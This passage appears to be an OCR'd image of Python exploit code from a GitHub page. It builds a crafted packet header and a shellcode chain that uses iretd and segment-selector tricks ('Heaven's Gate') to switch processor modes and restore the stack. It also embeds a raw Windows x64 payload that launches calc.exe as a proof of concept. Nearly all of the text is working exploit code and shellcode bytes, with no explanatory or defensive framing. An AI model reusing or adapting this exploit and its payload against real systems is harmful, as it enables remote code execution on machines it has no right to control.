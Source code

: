 ```python
  data = b''
  while 1 :
    tmp = s.recv(1)
    if not tmp :
      break
    data += tmp
  return data


def get_header() :
  opcode_1 = struct.pack("<Q", 0x323230326F6B45)
  packet_typ = b"T"
  len_body = struct.pack("<H", 0xf0f0)
  header = opcode_1 + packet_typ + len_body
  return header


def get_shellcode(is_64=False):
  szp = "<Q" if is_64 else "<I"

  # 0. Set iretd arguments
  ret_shellcode = struct.pack(szp, 0x10000014)

  # https://www.malwaretech.com/2014/02/the-0x33-segment-selector-heavens-gate.html
  #   - we cant use the 0x33 Segment Selector ("Heavens Gate") which permits to execute 64-bit code in an 32-bit (WOW64) Process
  #   - we can also do the inverse step passing from x64 to x86 segment selector
  #   - x86 code segment ---> 0x23, x64 code segment ---> 0x33
  cs = struct.pack(szp, 0x23)
  eflags = struct.pack(szp, 0x246)
  sp = struct.pack(szp, 0x1000fff0)

  # we use GS segment register value 0x53
  ss = struct.pack(szp, 0x53)

  # 1. restore stack address to its original value (rcx does leak it)
  # "MOV ESP, ECX"
  g0 = b"\x89\xcc"

  # 2. fix SS, CS registers to their old values
  #     - note: we can't set directly CS register instead we can invoke iretd again
  # "XOR EAX, EAX; INC EAX; OR EAX, 0x2A; MOV SS, EAX; MOV ESI, EAX; XOR EAX, 0x1B; OR EAX, 0x3; MOV EDI, EAX"
  g1_1 = b"\x31\xc0\x40\x83\xc8\x2a\x8e\xd0\x89\xc6\x83\xf0\x1b\x83\xc8\x03\x89\xc7"
  # "SUB ECX, 0x38; POP EAX; POP EBX; POP EBX; POP EDX; POP EDX; PUSH ESI; PUSH ECX; PUSH EBX; PUSH EDI; ADD EAX, 0x25; PUSH EAX; IRETD"
  g1_2 = b"\x83\xe9\x38\x58\x5b\x5b\x5a\x5a\x56\x51\x53\x57\x83\xc0\x25\x50\xcf"

  # 3. iretd does set RSP to a 256-aligned address
  # "MOV RSP, RCX"
  g2 = b"\x48\x89\xcc" 

  # https://github.com/peterferrie/win-exec-calc-shellcode/blob/master/w64-exec-calc-shellcode.asm
  # compiled as: nasm w64-exec-calc-shellcode.asm -o w64-exec-calc-shellcode.bin -DSTACK_ALIGN=TRUE -DFUNC=TRUE -DCLEAN=TRUE
  buff = \
    b"\x50\x51\x52\x53\x56\x57\x55\x54\x58\x66\x83\xe4\xf0\x50\x6a\x60\x5a\x68\x63\x61\x6c" \
    b"\x63\x54\x59\x48\x29\xd4\x65\x48\x8b\x32\x48\x8b\x76\x18\x48\x8b\x76\x10\x48\xad\x48" \
    b"\x8b\x30\x48\x8b\x7e\x30\x03\x57\x3c\x8b\x5c\x17\x28\x8b\x74\x1f\x20\x48\x01\xfe\x8b" \
    b"\x54\x1f\x24\x0f\xb7\x2c\x17\x8d\x52\x02\xad\x81\x3c\x07\x57\x69\x6e\x45\x75\xef\x8b" \
    b"\x74\x1f\x1c\x48\x01\xfe\x8b\x34\xae\x48\x01\xf7\x99\xff\xd7\x48\x83\xc4\x68\x5c\x5d" \
    b"\x5f\x5e\x5b\x5a\x59\x58\xc3"

```